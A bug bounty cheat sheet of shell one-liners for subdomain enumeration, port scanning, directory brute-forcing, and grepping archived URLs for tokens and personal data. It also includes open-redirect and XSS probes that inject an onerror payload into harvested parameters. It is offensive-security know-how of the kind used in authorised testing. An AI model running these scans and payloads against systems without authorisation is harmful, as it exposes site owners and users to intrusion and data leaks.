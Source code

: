 **Bug Bounty Recon and Exploitation Cheat Sheet**

---

### 1. Sudomy Command (Subdomain Enumeration & Web Analysis)
```bash
./sudomy -d target -dP -eP -rS -cF -pS -1tO -gW --httpx -al webanalyze
```
- `-d`: Target domain
- `-dP`, `-eP`, `-rS`, `-cF`, `-pS`, `-1tO`, `-gW`: Subdomain and metadata collection
- `--httpx`: Send results through httpx for probing
- `-al webanalyze`: Analyze technologies used on web targets

---

### 2. PDF Link Hijacking & Secrets from JS
- **Broken Link Hijacking (PDFs via Wayback):**
  Use waybackurls and check if old PDFs contain broken links pointing to hijackable domains.

- **Secrets from JS (Using BurpSuite):**
  Visit: [https://googlekey.blindf.com/](https://googlekey.blindf.com/) to test for hardcoded secrets.

---

### 3. Waybackurls + Sensitive Info Grepping
```bash
waybackurls target.com | grep -Ei 'user|api|token|@|redirect=|logout=|admin|info|number|address|firstname|lastname'
```

- Add more keywords based on target.

#### Open Redirect Testing:
```bash
cat Passive_Collect_URL_Full.txt | grep -ai '=http' | bhedak 'http://redirect.com' | while read host; do
  curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host \033[0;31mVulnerable\n";
done
```

#### XSS Testing:
```bash
cat Passive_Collect_URL_Full.txt |
  grep '=' |
  egrep -iv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js|php|py)' |
  uro |
  gsreplace '><img src=x onerror=alert(1);>' |
  freq
```

#### 403 Bypass:
- Try accessing via direct paths or include authorization tokens manually.

---

### 4. Port Scanning and Vulnerability Discovery
```bash
naabu -il ip_resolver.txt -p 21,22,2075,2076,6443,3868,3366,8443,8080,9443,9091,3000,8000,5900,8081,6000,10000,8181,3306,5000,4000,8888,5432,15672,9999,161,4044,7077,4040,9000,8089,443,7447,7080,8880,8983,5673,7443,19000,19080 | tee bbcportscan.txt
```
- **Special Ports**: 21 (Check anonymous FTP), 3306 (MySQL), 3806, etc.

---

### 5. Uncover + Nuclei + Dirsearch
```bash
uncover -q "target.com" -e censys,fofa,shodan,shodan-idb | httpx | tee ips.txt
```
- Analyze IPs for origin leaks / cloudflare bypass.
- Run `nuclei` and `dirsearch` on discovered hosts.

#### Bruteforce with Dirsearch:
```bash
python3 dirsearch.py -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql,zip,tar.gz,rb,cache,cgi,csv,html,inc,jar,js,json,log,rar,wadl,bkp,bz2 -u https://ruba.com -r -b --json-report=dirsearch.json
```

---

### 6. GitHub Recon
- Visit: [https://vsec7.github.io/](https://vsec7.github.io/)
- GitHub Dorks: [https://raw.githubusercontent.com/7srambo/bugbounty/main/github_dorks.txt](https://raw.githubusercontent.com/7srambo/bugbounty/main/github_dorks.txt)

---

### 7. Web Technology Analysis & Exploits
- **AngularJS**:
  - Check for SSTI: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

- **WordPress**:
  - Info: [WordPress Pentesting](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
  - Scan: `wpscan --url https://target.com/ --api-token XXXXXX`

---

Stay safe and ethical. Hack the planet responsibly!

